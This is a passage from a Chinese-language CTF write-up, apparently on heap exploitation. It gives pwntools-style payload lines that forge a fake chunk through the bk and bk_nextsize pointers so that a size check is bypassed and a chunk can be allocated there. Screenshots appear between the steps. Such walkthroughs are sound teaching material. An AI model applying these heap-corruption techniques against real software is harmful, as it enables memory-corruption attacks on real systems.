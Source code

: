 ```bash
payload=p64(0)+p64(fake_chunk)
edit(3,payload)
```

chunk3\_bk-->fake\_chunk  
[![](assets/1701612337-dbd4760cd02b5f9c75a546eb01ee6f8c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173057-24de393a-1d72-1.png)

```bash
payload=p64(0)+p64(fake_chunk+0x8)+p64(0)+p64(fake_chunk-0x18-5)
edit(1,payload)
```

chunk1\_bk-->fake\_chunk+8  
chunk1\_bk\_nextsize-->fake\_chunk-0x18-5

这里 chunk1\_bk\_nextsize-->fake\_chunk-0x18-5 是为了后面 fake\_chunk 的 size 为 0x56，这样 P 位就是 0，可以通过检查了 (堆地址通常是 0x55 或者 0x56 开头，只有当 0x56 开头的时候才能绕过检查)

[![](assets/1701612337-3dccd5bcadf550183abd068e5b8a33e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173117-3066ab0c-1d72-1.png)

```bash
add(0x48) #9
```

这里 size 正好能够绕过检查，所以能够申请下来

[![](assets/1701612337-e0c0069608dfe3ce6d0efc9c2997652e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173129-37dbeff0-1d72-1.png)
